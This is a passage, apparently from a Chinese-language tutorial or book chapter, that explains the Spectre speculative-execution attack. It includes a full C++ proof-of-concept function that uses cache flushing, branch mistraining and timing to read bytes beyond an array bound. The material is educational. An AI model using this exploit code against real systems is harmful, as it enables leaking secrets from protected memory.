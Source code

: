 现在我们必须确保在我们需要读取它之前将该值从缓存中清除，并使用存储在`*data_size`中的数组大小值，而不是原始的`size`值：

```cpp
_mm_clflush(&*data_size);
for (volatile int z = 0; z < 1000; ++z) {}  // Delay
const size_t i = (i_read & 0xf) ? ok_index : evil_index;
if (i < *data_size) {
    access_memory(timing_array + data[i]);
}
```

在前面的代码中还有一个神奇的*延迟*，一些无用的计算将缓存刷新与数据大小的访问分开（它击败了可能的指令重排序，让 CPU 更快地访问数组大小）。现在条件`i < *data_size`需要一些时间来计算：CPU 需要在知道结果之前从内存中读取值。分支根据更可能的结果进行预测，即有效索引，因此数组被进行了推测性访问。

## 幽灵，释放

最后一步是将所有内容汇总并多次运行该过程，以积累统计上可靠的测量数据（鉴于单个指令的定时测量非常嘈杂，因为计时器本身所需的时间大约与我们试图测量的时间一样长）。

以下函数攻击数据数组之外的单个字节：

```cpp
char spectre_attack(const char* data, 
                    size_t size, size_t evil_index) {
  constexpr const size_t num_val = 256;
  struct timing_element { char s[1024]; };
  static timing_element timing_array[num_val];
  ::memset(timing_array, 1, sizeof(timing_array));
  std::array<long, num_val> latencies = {};
  std::array<int, num_val> scores = {};
  size_t i1 = 0, i2 = 0;      // Two highest scores
  std::unique_ptr<size_t> data_size(new size_t(size));
  constexpr const size_t n_iter = 1000;
  for (size_t i_iter = 0; i_iter < n_iter; ++i_iter) {
    for (size_t i = 0; i < num_val; ++i) {
      _mm_clflush(timing_array + i);  // Un-cache the array
    }
    const size_t ok_index = i_iter % size;
    constexpr const size_t n_read = 100;
    for (size_t i_read = 0; i_read < n_read; ++i_read) {
      _mm_clflush(&*data_size);
      for (volatile int z = 0; z < 1000; ++z) {}  // Delay
      const size_t i = (i_read & 0xf) ? ok_index : 
        evil_index;
      if (i < *data_size) {
        access_memory(timing_array + data[i]);
      }
    }
    for (size_t i = 0; i < num_val; ++i) {
      const size_t i_rand = (i*167 + 13) & 0xff;
       // Randomized
      const timing_element* const p = timing_array + 
        i_rand;
      const long t0 = get_time();
      access_memory(p);
      latencies[i_rand] = get_time() - t0;
    }
    score_latencies(latencies, scores, ok_index);
    std::tie(i1, i2) = best_scores(scores);
    constexpr const int threshold1 = 2, threshold2 = 100;
    if (scores[i1] > 
       scores[i2]*threshold1 + threshold2) return i1;
  }
  return i1;
}
```
